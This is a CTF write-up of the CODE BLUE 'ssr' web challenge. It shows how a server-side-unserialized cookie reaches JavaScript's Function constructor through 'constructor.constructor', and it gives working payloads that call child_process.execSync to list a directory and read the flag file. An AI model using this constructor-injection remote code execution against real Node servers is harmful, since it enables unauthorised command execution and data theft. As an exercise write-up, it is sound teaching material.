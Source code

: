 There are some actions of this site:

- login
- get idol
- let idol say something

When get an idol, this site use cookie to store it, such as ``[{"key":["ssr","0"]}]``, will unserialize a ssr idol Uzuki.

And when access url like http://ssr.tasks.ctf.codeblue.jp/idols/0/say1, will call Uzuki's say1 function.

Try ``[{"key":["a","0"]}]`` will get an error

```
TypeError: Cannot read property '0' of undefined
    at generateIdol (/usr/local/ssr/build/server.js:144:49)
    at /usr/local/ssr/build/server.js:172:12
    at Array.map (<anonymous>)
    at unserializeIdols (/usr/local/ssr/build/server.js:169:20)
    at Idol.render (/usr/local/ssr/build/server.js:436:46)
    at /usr/local/ssr/node_modules/react-dom/lib/ReactCompositeComponent.js:793:21
    at measureLifeCyclePerf (/usr/local/ssr/node_modules/react-dom/lib/ReactCompositeComponent.js:73:12)
    at ReactCompositeComponentWrapper._renderValidatedComponentWithoutOwnerOrContext (/usr/local/ssr/node_modules/react-dom/lib/ReactCompositeComponent.js:792:25)
    at ReactCompositeComponentWrapper._renderValidatedComponent (/usr/local/ssr/node_modules/react-dom/lib/ReactCompositeComponent.js:819:32)
    at ReactCompositeComponentWrapper.performInitialMount (/usr/local/ssr/node_modules/react-dom/lib/ReactCompositeComponent.js:359:30)
```

Seems server side will also unserialize it.

In this chall, server side and client side share some code, so we can see functions related with generate idol from cookie:

```js
var unserializeIdols = exports.unserializeIdols = function unserializeIdols(idolsData) {
  if (!idolsData) {
    return [];
  }
  return idolsData.map(function(_ref) {
    var key = _ref.key;
    return generateIdol(key);
  });
};
```

```js
var idol = (0, _idols.unserializeIdols)(cookies.get('idols'))[id];
if (!idol) {
  return _react2.default.createElement(
    'div',
    null,
    'Invalid Idol!!'
  );
}

var idolAction = action || 'say1';
if (!idol[idolAction]) {
  return _react2.default.createElement(
    'div',
    null,
    'Invalid Action!!'
  );
}
```

```js
var generateIdol = function generateIdol(key) {
  var _key = _slicedToArray(key, 2),
      rarity = _key[0],
      idolNo = _key[1];

  var idolClass = _idolDatabase2.default[rarity][idolNo];
  return new idolClass(key);
};
```

so with such code, when we pass a normal cookie such as ``[{"key":["ssr","0"]}]`` will execute:

```js
var idol = _idolDatabase2.default["ssr"]["0"];
return new idolClass(["ssr","0"]);
```

But JavaScript has some magic properties such as prototype/constructor.

If we pass a cookie like

```
[{"key":["constructor","constructor","0%3Breturn 1"]}]
```

will execute

```js
var idolClass = _idolDatabase2.default["constructor"]["constructor"];
return new idolClass(["constructor","constructor","0;return '1'"]);
```

and generate a fucntion

```js
function(){constructor,constructor,0;return '1'}
```

now we can generate an arbitrarily function, we can use it by ``call`` method with visit url http://ssr.tasks.ctf.codeblue.jp/idols/0/call.

so let's list directory first

try

```
[{"key":["constructor","constructor","0%3Breturn process.mainModule.require('child_process').execSync('ls /usr/local/ssr/')+''"]}]
```

will return

```
README.md
build
conf
flag
gulpfile.js
node_modules
package-lock.json
package.json
public
src
style
webpack.config.js
```

and then cat flag with

```
[{"key":["constructor","constructor","0%3Breturn process.mainModule.require('child_process').execSync('cat /usr/local/ssr/flag')+''"]}]
```

got 

```
CBCTF{server_side_render1ng_1s_Soo_fun}
```